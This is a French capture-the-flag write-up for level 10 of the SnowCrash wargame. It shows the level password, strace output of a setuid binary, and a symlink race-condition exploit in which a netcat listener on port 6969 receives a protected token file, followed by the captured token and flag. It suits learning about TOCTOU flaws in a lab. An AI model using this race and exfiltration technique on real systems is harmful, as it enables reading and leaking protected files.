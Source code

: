 # LEVEL 10

**LOGIN: level10**

**PASSWORD: s5cAJpM8ev6XHw998pRWG728z**

 ----
 
 ```
 level10@SnowCrash:~$ ls -l; echo; file level10 ; echo ; cat token
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

level10: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf7e21fb68568fa57d6317d0535b97d9fca66f841, not stripped

cat: token: Permission denied
```
```
/level10 
./level10 file host
	sends file to host if you have access to it
```

Ok un peu de reseau !? 

`level10@SnowCrash:~$ touch file host`
```
level10@SnowCrash:~$ strace -s 1000 ./level10 file host
...
access("file", R_OK)                    = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fda000
write(1, "Connecting to host:6969 .. ", 27Connecting to host:6969 .. ) = 27
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("255.255.255.255")}, 16) = -1 ENETUNREACH (Network is unreachable)
....
```

Le programme utilise `access` pour vérifier les droits au fichier passé en argument ... on imagine pouvoir utiliser un Exploiting Race Condition. 
Puis, il crée une connection sur l'ip passée en paramètre sur le port 6969

On ouvre donc une connection en attente sur ce port 
`nc -l -k -p 6969`

puis
`./level10 file 192.168.0.18 & ln -sf token file`

et on recoit bien le token.

**TOKEN: woupa2yuojeeaaed06riuj63c**

```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```


